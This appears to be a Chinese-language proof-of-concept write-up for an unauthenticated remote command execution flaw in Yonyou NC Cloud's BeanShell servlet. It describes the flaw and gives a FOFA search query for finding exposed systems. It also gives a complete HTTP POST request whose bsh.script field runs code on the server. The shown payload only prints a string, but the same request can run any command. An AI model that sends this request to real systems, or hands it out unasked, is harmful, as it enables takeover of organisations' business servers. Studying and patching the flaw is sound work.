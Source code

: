 # 用友NC Cloud存在前台远程命令执行漏洞

## 1.漏洞描述

用友 NC bsh.servlet.BshServlet 存在远程命令执行漏洞，该漏洞为远程命令执行漏洞，在无需登陆系统的情况下，攻击者可通过BeanShell测试接口（BeanShell可以直接执行java代码，适用于测试java代码的接口）直接执行任意命令，恶意攻击者成功利用该漏洞可获得目标系统管理权限。

## 2.搜索语法

```plain
fofa：app="用友-UFIDA-NC"
```

## 3.漏洞复现

```plain
POST /servlet/~ic/bsh.servlet.BshServlet HTTP/1.1
Host: 127.0.0.1
Content-Length:28
Cache-Control:max-age=0,
Upgrade-Insecure-Requests:1,
Origin:http://127.0.0.1
Content-Type:application/x-www-form-urlencoded
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko/125.0.0.0 Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webapng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer:http://127.0.0.1/servlet/~ic/bsh.servlet.BshServlet
Accept-Encoding:gzip, deflate
Accept-Language:zh-CN,zh;q=0.9
Cookie:JSESSIONID=BCFBABDCFCBF9D0D7C482AF1BDFEF70D.server
Connection:close

bsh.script=print("Hardog")
```

网站内容显示如下：
![image](https://github.com/hardog123/poc-exp/assets/170905460/e732b3d5-2141-4796-9f34-319959a56ad6)

